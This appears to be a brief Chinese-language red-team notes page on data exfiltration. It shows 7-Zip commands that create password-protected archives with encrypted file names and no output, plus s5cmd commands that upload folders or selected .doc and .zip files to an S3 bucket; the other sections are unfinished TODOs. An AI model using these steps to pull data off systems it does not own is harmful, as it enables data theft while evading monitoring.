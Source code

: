 ```yaml
---
title: "数据外泄技术"
date: "2025-09-02"
draft: false
tags: 
hidden: false
comments: false
---
```


## 数据压缩

### 7Zip
将D:\test文件夹压缩
-p 参数设置密码为Secret
-mhe=on 参数设置加密目录名和文件名
-mx=5 平衡压缩速度与大小
-bd 关闭进度条
-bb0 关闭输出日志
```
& 'C:\Program Files\7-Zip\7z.exe' a -pSecret -mhe=on -mx=5 -bd -bb0 D:\test.7z D:\test
```

### PowerShell
递归压缩 D:\test 目录（包括子目录）
```
Compress-Archive -Path "D:\test\*" -DestinationPath "D:\test.zip"
```


## 数据外泄技术

### Restic
TODO

### BackBlaze (b2.exe)
TODO

### S5cmd
保留目录层次结构并上传到存储桶
```
s5cmd cp D:\test 's3://bucket/test/'
```

将单个文件上传到存储桶
```
s5cmd cp D:\test.zip 's3://bucket/test.zip'
```

将文件后缀为doc和zip的文件上传到存储桶
```
s5cmd cp --include "*.doc" --include "*.zip" D:\test 's3://bucket/test/'
```
